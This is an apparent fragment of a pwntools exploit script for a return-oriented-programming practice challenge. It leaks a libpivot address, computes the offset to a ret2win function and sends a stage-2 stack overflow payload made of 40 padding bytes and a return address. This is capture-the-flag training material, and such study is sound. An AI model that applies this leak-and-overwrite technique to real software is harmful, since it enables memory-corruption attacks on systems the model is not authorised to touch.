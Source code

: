 ```
print("Leaked: ", leak)
leaked_foothold_addr_str = leak.split(b"libpivot")[1].split(b"\n")[1]
leaked_foothold_addr = u64(leaked_foothold_addr_str+ b"\x00\x00") # 2 bytes padding
print("Leaked address: ", hex(leaked_foothold_addr))

calculated_offset = ret2win_base_addr - foothold_base_addr # 0x117
print("Calculated offset: ", hex(calculated_offset))

leaked_ret2win_addr = leaked_foothold_addr + calculated_offset

stage2_payload = b"A" * 40
stage2_payload += p64(leaked_ret2win_addr)

io.sendlineafter(b">", stage2_payload)
io.interactive()
```
